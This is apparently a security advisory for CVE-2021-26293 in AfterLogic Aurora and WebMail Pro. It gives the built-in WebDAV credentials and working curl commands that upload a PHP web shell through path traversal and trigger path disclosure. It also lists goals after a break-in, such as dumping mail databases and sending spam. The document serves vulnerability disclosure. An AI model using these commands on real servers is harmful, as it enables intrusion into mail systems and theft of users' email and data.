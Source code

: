 # **Report Title:** CVE-2021-26293 - Public unrestricted upload with path traversal on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Critical

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:**  Directory Traversal, Unrestricted Upload of File with Dangerous Type, Public Built-in Credentials For Critical Function

**Gained Access:** WebServer user ( Apache, Nginx, Etc… )

## **Resources:**
* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal
* https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

## **Authors:**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%40halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary:**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP PUT request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to create/overwrite files with malicious files such as web shells or database dumpers, etc.

After uploading a malicious PHP file to the web server, some example actions that the attacker can do;

1. Download / Modify the database
    1. Email addresses with easily decodable passwords
    2. CalDAV data ( Calendars of the users )
    3. CardDAV data ( Contacts of the users )
2. Download user uploaded private WebDAV files.
3. Intercept to read/modify emails of webmail users. 
    1. A way to read emails because webmail servers usually are whitelisted on mail servers while normal clients have thresholds
    2. A good way to spread malicious executables/mails to users without struggling mail gateways/spam blockers.
    3. Acting like the real user and sending vicious emails to important users/companies
    4. Sending bulk emails for spam campaigns.
4. Try to privilege escalation to get the root/administrator server.

Etc...

## **To Reproduce:**

Upload the malicious file with the following curl command

```shell
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

As the AfterLogic WebMail Pro docs mentioned “the web root usually looks like /var/www/html” and at the above PoC assumes files are located under apache’s standard /var/www/html path, it may differ due to configuration but it’s not a block for the attacker because we realized that some of the EndPoints expose the document root path when the invalid path parameter requested.

Ways to figure out document root directory on customized web server configurations;

1. Using invalid path to get SabreDAV error which gives full path disclosure of the path to the webroot.

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

2. Trying to common web server paths
3. Brute force ( append new ../ to the URL, until getting HTTP 200 for the uploaded malicious file. )

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpPut
* \libraries\Sabre\DAV\FS\File.php -> put

Unrestricted Upload of File with Dangerous Type, Directory Traversal problem starts on step 2 / exec, it doesn’t sanitize given parameters and checks the file extension which with that way attacker able to write upper directories and execute the malicious file

With the above problem any loggable user can uploads malicious files, with the caldav_public_user@localhost users, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
